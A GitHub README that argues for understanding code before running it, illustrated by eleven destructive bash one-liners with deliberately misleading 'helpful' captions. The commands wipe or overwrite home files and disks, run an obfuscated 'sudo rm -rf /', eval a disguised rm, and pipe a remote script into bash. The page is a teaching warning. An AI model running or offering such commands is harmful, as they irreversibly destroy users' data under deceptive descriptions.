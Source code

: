 # My one page argument for learning to code (examples exaplained)

## **_NEVER_** run code you don't understand

I often hear people call themselves 'Copy and paste' coders. And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things. A better method is to find code, see what is done and then recreate it, and at a bare minimal, copy it, but know exactly what it does. \
Here is my small example of code that has unintended results.


> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands
Note: Most of these will error, unless spuressed with ```&> /dev/null``` but alot of damage can still be done before you can take action.

A. Greatly simplifies document syntax: \
Find all files and replace all content with astriks

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space: \
Simply remove all files and folders

``` bash
du ~/ | grep -o '/.*' | xargs rm -rf --
```

C. Relinks your files to improve efficentcy: \
Replace all files with a link to the void (/dev/null)

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage: \
Moves all content 3 levels deep the void (dev/null)

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space: \
7375646f20726d202d7266202f0a is a hex dump of ```sudo rm -rf /``` \
The command reverses the dump and runs the output

``` bash
command $(echo 7375646f20726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know: \
This downloads code online and runs it without ever you reviewing or seeing it

``` bash
bash -c "$(curl -s https://raw.githubusercontent.com/thedzy/My-one-page-argument-for-learning-to-code/master/malicious_file.sh)"
```

G. Frees up uneccesary space: \
This transforms 'stream -draft ~/saved' into ```rm -rf ~/``` by removing all characters between a-e and s-z and then evaulates it

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space: \
Compresses all files 5 levels deep to a random zip file with a random password of 64 characters. It does not store the password.

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes: \
Copy the contents of /dev/random to each drive is /dev/

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your life: \
Finds all files and replaces the contents with nothing

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \; 
```

K. Keep logs of files in the home folder utilising your current files
Replaces the contents of every files with the filename

```bash
find ~/ -type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
6. Rinse and repeat
